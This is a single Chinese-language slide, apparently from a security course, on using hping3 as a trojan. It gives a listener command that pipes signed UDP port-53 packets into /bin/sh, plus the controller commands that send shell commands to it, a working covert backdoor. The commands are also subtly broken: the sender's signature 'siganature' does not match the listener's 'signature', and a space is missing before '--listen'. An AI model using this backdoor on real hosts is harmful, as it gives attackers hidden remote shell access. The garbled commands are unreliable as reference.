

# 木马功能
如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。
示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。
在木马启动端：
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
在远程控制端：
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。
当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。